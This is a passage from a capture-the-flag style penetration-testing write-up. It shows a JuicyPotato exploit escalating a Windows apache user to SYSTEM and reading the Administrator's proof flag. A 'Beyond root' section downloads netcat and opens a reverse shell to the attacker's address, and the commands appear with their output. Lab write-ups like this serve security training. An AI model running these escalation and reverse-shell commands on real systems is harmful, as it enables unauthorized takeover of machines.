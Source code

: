 
## Root Flag Extraction proof.txt

- Now we can just navigate to **C:\Users\apache\Desktop** and read the flag inside **local.txt** file.

```bash
C:\Users\apache\Desktop>jp.exe -l 1337 -p "C:\Windows\System32\cmd.exe" -a "type C:\Users\Administrator\Desktop\proof.txt > C:\Users\Public\proof.txt" -t * -c {69AD4AEE-51BE-439b-A92C-86AE490E8B30}
jp.exe -l 1337 -p "C:\Windows\System32\cmd.exe" -a "type C:\Users\Administrator\Desktop\proof.txt > C:\Users\Public\proof.txt" -t * -c {69AD4AEE-51BE-439b-A92C-86AE490E8B30}
Testing {69AD4AEE-51BE-439b-A92C-86AE490E8B30} 1337
...........................................
C:\Users\apache\Desktop>jp.exe -l 1337 -p "C:\Windows\System32\cmd.exe" -a "type C:\Users\Administrator\Desktop\proof.txt > C:\Users\Public\proof.txt" -t * -c {69AD4AEE-51BE-439b-A92C-86AE490E8B30}
jp.exe -l 1337 -p "C:\Windows\System32\cmd.exe" -a "type C:\Users\Administrator\Desktop\proof.txt > C:\Users\Public\proof.txt" -t * -c {69AD4AEE-51BE-439b-A92C-86AE490E8B30}
Testing {69AD4AEE-51BE-439b-A92C-86AE490E8B30} 1337
....
[+] authresult 0
{69AD4AEE-51BE-439b-A92C-86AE490E8B30};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Users\apache\Desktop>type C:\Users\Public\proof.txt
type C:\Users\Public\proof.txt
cddd3973c71*****3710219e36f

```

---
---

## Beyond root

- Getting Administrator shell
- Upload netcat using python server. https://github.com/int0x33/nc.exe/raw/refs/heads/master/nc.exe
- Start a netcat listner on any port
- Then run huicy potato command to get shell 

```bash
jp.exe -l 1337 -p "C:\Windows\System32\cmd.exe" -a "/c C:\Users\apache\Desktop\nc.exe -e cmd.exe 192.168.49.55 9999" -t * -c {69AD4AEE-51BE-439b-A92C-86AE490E8B30}
```
- Will get a Administrator shell

```bash
nc -lvnp 9999
listening on [any] 9999 ...
connect to [192.168.49.55] from (UNKNOWN) [192.168.55.46] 50114
Microsoft Windows [Version 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>type C:\Users\Administrator\Desktop\proof.txt
type C:\Users\Administrator\Desktop\proof.txt
cddd3973c7*****1163710219e36f

C:\Windows\system32>
```

---
